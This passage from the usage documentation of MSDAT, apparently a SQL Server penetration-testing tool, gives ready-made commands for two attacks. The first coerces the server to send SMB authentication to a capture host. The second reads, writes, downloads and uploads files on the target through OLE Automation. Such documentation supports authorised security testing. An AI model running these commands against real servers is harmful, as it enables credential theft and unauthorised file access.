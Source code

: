 ```
msf > use auxiliary/server/capture/smb
msf auxiliary(smb) > exploit
```

The ***capture*** command of this module tries to capture a SMB authentication thanks to *xp_dirtree*, *xp_fileexist* or *xp-getfiledetails* procedure.

If you want to choose the SMB authentication procedure to capture the authentication:

```
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-dirtree-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-fileexist-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-getfiledetails-capture 127.0.0.1
```

You can change the SHARE name with the *--share-name* option.

## 

## *oleautomation* module

This module can be used to read/write file in the database server.

The following command read the file *temp.txt* stored in the database server:

```
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --read-file 'C:\Users\Administrator\Desktop\temp.txt'
```

To write a string in a file (*temp.txt*) remotely:

```
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --write-file 'C:\Users\Administrator\Desktop\temp.txt' 'a\nb\nc\nd\ne\nf'
```

This module can be used to download a file (*C:\Users\Administrator\Desktop\temp.txt*) stored on the database server:

```
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --get-file 'C:\Users\Administrator\Desktop\temp.txt' temp.txt
```

Also, you can use this module to upload a file (*temp.txt*) on the target:

```
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --put-file temp.txt 'C:\Users\Administrator\Desktop\temp.txt
```

## 

## *bulkopen* module
